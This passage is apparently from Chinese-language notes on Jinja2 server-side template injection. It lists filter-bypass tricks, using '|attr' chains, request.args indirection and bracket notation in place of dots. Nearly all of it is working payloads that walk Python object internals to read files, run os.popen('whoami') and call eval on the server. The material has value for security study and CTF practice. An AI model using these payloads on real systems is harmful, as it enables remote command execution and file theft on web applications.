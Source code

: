 利用 `|attr` 绕过

```python
{{ (()|attr(request.args.class)|attr(request.args.base)|attr(request.args.subclasses)()).pop(40)('d:/test.txt').read() }}
```

get 传入 `class=__class__&base=__base__&subclasses=__subclasses__`

### 过滤 .

利用 `[] ` 绕过

```python
{{ ''['__class__']['__mro__'][-1]['__subclasses__']()[72]['__init__']['__globals__']['os']['popen']('whoami')['read']() }}
```

利用 `|attr` 绕过

```python
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(59)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```